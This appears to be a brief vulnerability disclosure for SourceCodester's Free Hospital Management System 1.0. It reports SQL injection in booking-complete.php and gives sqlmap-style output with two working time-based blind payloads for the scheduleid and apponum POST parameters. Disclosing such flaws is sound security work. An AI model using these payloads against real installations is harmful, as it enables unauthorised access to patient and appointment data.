 
https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file \vm\patient\booking-complete.php

The manipulation of the argument $userid,$apponum,$scheduleid, leads to sql injection

```
Parameter: scheduleid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1&scheduleid=1 AND (SELECT 3799 FROM (SELECT(SLEEP(5)))LBFS)&date=2023-07-09

Parameter: apponum (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1 AND (SELECT 6268 FROM (SELECT(SLEEP(5)))nFTS)&scheduleid=1&date=2023-07-09
```

![Alt text](image.png)